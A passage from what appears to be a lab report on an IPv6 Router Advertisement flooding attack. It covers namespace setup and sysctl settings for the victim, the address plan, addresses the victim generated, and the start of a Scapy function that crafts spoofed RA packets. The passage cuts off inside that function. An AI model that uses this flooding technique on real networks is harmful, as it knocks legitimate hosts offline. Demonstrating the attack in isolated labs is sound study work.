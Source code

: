 #### 4.2.2 IPv6 Configuration for Attack Susceptibility
```bash
# Configure victim to accept Router Advertisements
ip netns exec victim sysctl -w net.ipv6.conf.all.forwarding=0
ip netns exec victim sysctl -w net.ipv6.conf.all.accept_ra=1
ip netns exec victim sysctl -w net.ipv6.conf.veth-victim.accept_ra=1
ip netns exec victim sysctl -w net.ipv6.conf.all.autoconf=1
ip netns exec victim sysctl -w net.ipv6.conf.veth-victim.autoconf=1
```

#### 4.2.3 Victim Characteristics
- **Interface**: `veth-victim` (2001:db8:cafe::2/64)
- **Role**: Legitimate host susceptible to RA flooding
- **Isolation**: Complete network namespace separation
- **Configuration**: Optimized for RA processing and address autoconfiguration
- **Monitoring**: Real-time IPv6 address count tracking

### 4.3 IP Address Assignment Strategy

#### 4.3.1 Base Network Configuration
- **Network**: 2001:db8:cafe::/64 (RFC 3849 documentation prefix)
- **Attacker IP**: 2001:db8:cafe::1/64 (Static assignment)
- **Victim IP**: 2001:db8:cafe::2/64 (Static assignment)

#### 4.3.2 Attack-Generated Addresses
During the attack, the victim automatically generates additional addresses:
```
2001:xxxx::victim-interface-id/64
```
Where:
- `xxxx` = Random 16-bit prefix from attacker RA packets
- `victim-interface-id` = EUI-64 derived from victim MAC address
- Examples from our demonstration:
  - 2001:6671::f4c3:59ff:fed2:65a1/64
  - 2001:fbdd::f4c3:59ff:fed2:65a1/64
  - 2001:991f::f4c3:59ff:fed2:65a1/64

---

## 5. Implementation Details

### 5.1 Core Technologies

#### 5.1.1 Programming Language and Libraries
- **Python 3.8+**: Main implementation language
- **Scapy 2.6.1**: Packet crafting and manipulation
- **Threading**: Concurrent packet transmission
- **tqdm**: Real-time progress monitoring
- **netifaces**: Network interface discovery

#### 5.1.2 Packet Crafting with Scapy
```python
def build_ra(self, fragment=False, random_mtu=False):
    """Build Router Advertisement packet with optional features"""
    
    # Generate random source MAC and prefix
    src_mac = self.generate_random_mac()
    random_prefix = f"2001:{random.randint(0, 0xffff):04x}"
    
    # Create base packet
    packet = (
        Ether(dst="33:33:00:00:00:01", src=src_mac) /
        IPv6(src=self.mac_to_link_local(src_mac), dst="ff02::1") /
```